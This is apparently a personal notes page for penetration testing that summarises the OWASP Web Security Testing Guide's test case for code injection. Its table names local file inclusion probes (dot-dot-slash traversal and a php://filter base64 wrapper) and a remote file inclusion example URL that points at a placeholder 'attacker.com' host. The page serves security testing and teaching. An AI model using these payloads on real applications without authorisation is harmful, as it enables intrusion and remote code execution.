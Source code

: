 ```yaml
---
title: Testing for Code Injection - OWASP Web Security Testing Guide 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - web pentesting
  - WSTG-INPV-11
---
```

# Testing for Code Injection

!!! quote ""
	[OWASP Web Security Testing Guide 4.2](index.md) > 7. Data Validation Testing > 7.11. Testing for Code Injection

| ID   | Link to Hackinglife             | Link to OWASP                                                                                                                                                                              | Description                                                                                                                                                                                                                                                                                           |
| :--- | :------------------------------ | :----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | :---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 7.11 | [WSTG-INPV-11](WSTG-INPV-11.md) | [Testing for Code Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11-Testing_for_Code_Injection) | - Identify injection points where you can inject code into the application.  - Check LFI with dot-dot-slash (../../), PHP Wrapper (php://filter/convert.base64-encode/resource).  - Check RFI from malicious URL  ?page.php?file=http://attacker.com/malicious_page  - Assess the injection severity. |

## Local File Inclusion

[See my notes on Local File Inclusion](../webexploitation/local-file-inclusion-lfi.md)